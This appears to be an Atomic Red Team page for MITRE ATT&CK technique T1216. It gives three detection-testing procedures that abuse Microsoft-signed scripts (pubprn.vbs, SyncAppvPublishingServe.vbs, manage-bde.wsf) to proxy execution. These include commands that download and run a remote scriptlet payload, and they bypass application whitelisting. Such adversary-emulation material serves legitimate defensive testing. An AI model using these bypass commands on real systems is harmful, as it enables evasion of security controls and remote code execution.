 # T1216 - Signed Script Proxy Execution
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1216)
<blockquote>Scripts signed with trusted certificates can be used to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application whitelisting solutions that do not account for use of these scripts.

PubPrn.vbs is signed by Microsoft and can be used to proxy execution from a remote site. (Citation: Enigma0x3 PubPrn Bypass) Example command: <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>

There are several other signed scripts that may be used in a similar manner. (Citation: GitHub Ultimate AppLocker Bypass List)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PubPrn.vbs Signed Script Bypass](#atomic-test-1---pubprnvbs-signed-script-bypass)

- [Atomic Test #2 - SyncAppvPublishingServe Signed Script PowerShell Command Execution](#atomic-test-2---syncappvpublishingserve-signed-script-powershell-command-execution)

- [Atomic Test #3 - manage-bde.wsf Signed Script Command Execution](#atomic-test-3---manage-bdewsf-signed-script-command-execution)


<br/>

## Atomic Test #1 - PubPrn.vbs Signed Script Bypass
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_payload | A remote payload to execute using PubPrn.vbs. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216/src/T1216.sct|


#### Attack Commands: Run it with `command_prompt`! 
```
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```






<br/>
<br/>

## Atomic Test #2 - SyncAppvPublishingServe Signed Script PowerShell Command Execution
Executes the signed SyncAppvPublishingServe script with options to execute an arbitrary PowerShell command.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A PowerShell command to execute. | string | Start-Process calc|


#### Attack Commands: Run it with `command_prompt`! 
```
C:\windows\system32\SyncAppvPublishingServe.vbs ΓÇ£\n;#{command_to_execute}ΓÇ¥
```






<br/>
<br/>

## Atomic Test #3 - manage-bde.wsf Signed Script Command Execution
Executes the signed manage-bde.wsf script with options to execute an arbitrary command.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A command to execute. | Path | C:\Windows\System32\calc.exe|


#### Attack Commands: Run it with `command_prompt`! 
```
set comspec=#{command_to_execute}
cscript manage-bde.wsf
```

#### Cleanup Commands:
```
set comspec=C:\Windows\System32\cmd.exe
```





<br/>
